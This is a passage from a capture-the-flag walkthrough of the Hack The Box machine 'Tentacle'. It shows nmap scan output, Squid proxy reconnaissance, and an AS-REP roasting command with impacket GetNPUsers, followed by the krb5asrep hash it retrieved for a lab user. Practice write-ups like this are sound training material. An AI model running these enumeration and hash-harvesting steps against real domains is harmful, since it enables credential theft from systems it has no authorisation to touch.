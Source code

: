 ```php
88/tcp   open  kerberos-sec MIT Kerberos (server time: 2021-06-15 18:26:23Z)
3128/tcp open  http-proxy   Squid http proxy 4.11
|_http-server-header: squid/4.11
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.99 seconds
```

## Chaining Proxies

Opening port 3128 in our webbrowser we see the default error page of `squid proxy`. This reveals a domain name and the potential username for the administrator.

[![squid_browser.png](/img/tentacle/squid_browser.png)](/img/tentacle/squid_browser.png)

Using impackets GetNPUsers on the the discovered user and domain, we see that preauthentication is not required and retrieve a TGT for `j.nakazawa`. This hash does however not easily crack and seems to be a rabbit hole.

```php
$ GetNPUsers.py -dc-ip 10.129.162.100 realcorp.htb/j.nakazawa -no-pass -format hashcat
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for j.nakazawa
$krb5asrep$18$j.nakazawa@REALCORP.HTB:baa85f441ae6dfb718c4b4be3c781715$3526860e00b060c29818959f03877c23a062f7198b9f3f8c9be4c2ed1190edf46bf091ccfb51e34afde275be7b142a561e86b1b83fdcb760d9a03c33bb3364073d755e82c69f82ff2d910f4d0ef5d46584ca45bf30e5add4b99a45c9316c5ac8b46b4ae34aa5b9ebeff1513ca31ab702b529604f5c5d6eff2f3b3b5bf8d64411f695eaea3b634989f0cc41d5235c83d29316886f9636bee1d72f557398f212e8d62209e48b7afd3be525769c08759379233d813a7eec0c1034d672b03124c4c9c12d99d21534d91d72877255ee16cf17eb81dbeb10bebb302739
```
